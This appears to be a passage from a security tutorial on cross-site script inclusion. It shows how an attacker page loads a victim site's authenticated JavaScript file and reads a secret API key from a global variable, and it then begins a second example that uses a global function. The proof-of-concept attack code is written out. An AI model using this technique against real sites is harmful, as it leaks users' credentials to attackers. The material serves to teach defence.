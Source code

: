### 1. Sensitive Data Leakage via Global Variables

An API key is stored in a JavaScript file with the URI `https://victim.com/internal/api.js` on the victim's website, `victim.com`, which is only accessible to authenticated users. An attacker configures a website, `attackingwebsite.com`, and uses the `<script>` tag to refer to the JavaScript file.

Here are the contents of `https://victim.com/internal/api.js`:

```javascript
(function() {
  window.secret = "supersecretUserAPIkey";
})();
```

The attack site, `attackingwebsite.com`, has an `index.html` with the following code:

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking data via global variables</title>
  </head>
  <body>
    <h1>Leaking data via global variables</h1>
    <script src="https://victim.com/internal/api.js"></script>
    <div id="result">
    </div>
    <script>
      var div = document.getElementById("result");
      div.innerHTML = "Your secret data <b>" + window.secret + "</b>";
    </script>
  </body>
</html>
```

In this example, a victim is authenticated with `victim.com`. An attacker lures the victim to `attackingwebsite.com` via social engineering, phishing emails, etc. The victim's browser then fetches `api.js`, resulting in the sensitive data being leaked via the global JavaScript variable and displayed using `innerHTML`.

### 2. Sensitive Data Leakage via Global Function Parameters

This example is similar to the previous one, except in this case `attackingwebsite.com` uses a global JavaScript function to extract the sensitive data by overwriting the victim's global JavaScript function.

Here are the contents of `https://victim.com/internal/api.js`:

```javascript
(function() {
  var secret = "supersecretAPIkey";
  window.globalFunction(secret);
})();
```
